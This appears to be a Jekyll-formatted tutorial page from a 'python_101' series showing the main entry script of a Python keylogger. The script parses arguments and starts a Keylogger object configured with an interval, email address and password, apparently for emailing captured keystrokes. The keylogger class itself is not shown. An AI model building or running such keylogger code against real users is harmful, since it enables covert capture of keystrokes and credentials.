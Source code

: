 ```yaml
---
title: Main method Invoking the Keylogger class
permalink: /permalinks/keylogger/main
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
---
```


## This script invokes all methods and classes used by the keylogger.


- We make the code modular and much easy to read seperating the keylogger class and main files. 
- We use this class to invoke methods from the keylogger class to log and report.


### Code:

```python
#!/usr/bin/env python

import argparse
# import filename
import keylogger


# Parse Args
options = keylogger.get_arguments()
print(keylogger.banner)
# new object definition for class "Keylogger"
my_keylogger = keylogger.Keylogger(int(options.interval), str(options.email), str(options.password))
# Use the start method
my_keylogger.start()
```